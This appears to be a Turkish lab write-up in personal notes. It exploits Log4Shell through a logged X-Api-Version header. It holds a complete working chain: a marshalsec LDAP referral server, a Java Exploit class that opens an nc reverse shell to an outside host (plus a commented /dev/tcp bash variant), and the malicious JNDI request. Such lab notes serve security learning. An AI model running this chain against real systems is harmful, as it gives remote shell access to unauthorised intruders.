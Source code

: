 fuzz sonucu
![[Pasted image 20250412112710.png]]
/systeminfo
![[Pasted image 20250412115452.png]]
yeni bir davranış burada X-api-version üzerinden bir loglama gerçekleşiyor olabilir.

![[Pasted image 20250412115809.png]]


log4j üzerinde bir açık olduğunu görüyorum ora üzerine yoğunlaşıyorum
ve `/` a giderkene `X-api-version` header ı loglanıyor
bu yüzden : 
`X-api-version` header ı üzerine payload deniyorum.

Aşağıda bu açığın ne olduğu payloadın nasıl kullanıldığı anlatılıyor.
--
# JNDI Injection (Log4Shell Tarzı RCE) 


`marshalsec` kurulur : 
```bash
git clone https://github.com/mbechler/marshalsec.git
mvn clean package -DskipTests
```

```bash title:"LDAP sunucusu çalıştırılır"
java -cp target/marshalsec-*.jar marshalsec.jndi.LDAPRefServer "http://192.168.144.1:1112/#Exploit"
```
LDAP sunucusu 0.0.0.0:1389 üzerinde çalışmaya başlar web serverinin buraya istek göndermesi gerekir.
![[Pasted image 20250413035110.png]]


LDAP sunucumun yönlendirdiği `192.168.144.1:1112` üzerinde çalışan http server: alt dizininde `Exploit.class` sınıfını bulundurur. bu sınıfı aşağıdaki kod üzerinden derliyoruz.

```bash
python3 -m http.server 1112
```
```java
import java.io.IOException;
public class Exploit {
    static {
        try {
            // String[] cmd = {"/bin/bash", "-c", "bash -i >& /dev/tcp/localhost/4444 0>&1"};
            String[] cmd = {"/bin/sh", "-c", "nc 192.168.157.1 4444 -e /bin/sh"};
            Runtime.getRuntime().exec(cmd);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```
```bash
javac exploit.java
```

> [!Araştır]
> bash üzerinde çalışmadı docker içerisinde biraz kontrol ettim bash çalışmıyormuş sh çalışıyormuş 

```http
GET /api HTTP/1.1
X-Api-Version: ${jndi:ldap://192.168.144.1:1389/a}
Host: localhost:8080
```
şeklinde istek gönderildiğinde sırasıyla 

LDAP -> http.server -> nc reverse shell şeklinde bir istek gönderilir
bu şekilde reverse shell alınır

![[Pasted image 20250413035335.png]]


XD :)
![[Pasted image 20250413030555.png]] 

Bu labı windows üzerinde çözebilmek için virüsten korumayı kapatmak gerekiyor sinirleniyor.


![[Pasted image 20250413031049.png]]



